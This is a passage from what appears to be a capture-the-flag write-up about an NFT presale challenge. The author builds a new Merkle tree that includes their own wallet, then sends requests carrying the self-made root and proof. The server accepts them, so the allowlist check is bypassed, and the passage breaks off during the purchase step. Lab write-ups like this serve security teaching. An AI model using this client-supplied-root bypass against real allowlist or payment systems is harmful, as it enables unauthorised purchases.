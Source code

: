 The second hint points us to a repo which can be used to create merkle trees. Let's clone the repo. We see the following line which defines the values to be included in the Merkle tree.

`allowlist = ['0x1337133713371337133713371337133713371337','0x0000000000000000000000000000000000000000']`

Let's add our wallet address to the list and run the script.

```
mt_user@cf57d0813b27:~$ python3 merkle_tree.py
Root: 0x849c21622ed0686867a4b7d1e3da3f2bf3ad341d07a10c7672b723fee8fb16ed
Proof: ['0x5380c7b7ae81a58eb98d9c78de4a1fd7fd9535fc953ed2be602daaa41767312a']
```

Let's send a modified request containing our newly generated Merkle tree. The validation succeeds.

Request
```
{
	"Proof": "0x5380c7b7ae81a58eb98d9c78de4a1fd7fd9535fc953ed2be602daaa41767312a",
	"Root": "0x849c21622ed0686867a4b7d1e3da3f2bf3ad341d07a10c7672b723fee8fb16ed",
	"Session": "48965082-df9b-4bf8-8669-a93746a87f0a",
	"Validate": "true",
	"WalletID": "0xC2d4052f29CCB330852CF17E24beD5f100BAE7f3"
}
```

Response
```
{
	"Response": "You're on the list and good to go! Now... BUY A SPORC!"
}
```

Now let's switch the `validate` parameter to `false` to purchase the NFT.
Request
```
{
	"Proof": "0x5380c7b7ae81a58eb98d9c78de4a1fd7fd9535fc953ed2be602daaa41767312a",
	"Root": "0x849c21622ed0686867a4b7d1e3da3f2bf3ad341d07a10c7672b723fee8fb16ed",
	"Session": "48965082-df9b-4bf8-8669-a93746a87f0a",
	"Validate": "false",
	"WalletID": "0xC2d4052f29CCB330852CF17E24beD5f100BAE7f3"
}
```
Response
```
{
	"Response": "Did you approve a 100 KC transaction for our wallet? The transaction failed with \"Insufficient Allowance\"."
}
```

Let's issue the request again after approving the 100 KC transaction from a KTM.

Request
```
{
	"Proof": "0x5380c7b7ae81a58eb98d9c78de4a1fd7fd9535fc953ed2be602daaa41767312a",
	"Root": "0x849c21622ed0686867a4b7d1e3da3f2bf3ad341d07a10c7672b723fee8fb16ed",
	"Session": "48965082-df9b-4bf8-8669-a93746a87f0a",
	"Validate": "false",
	"WalletID": "0xC2d4052f29CCB330852CF17E24beD5f100BAE7f3"
}
```
Response
```
{
```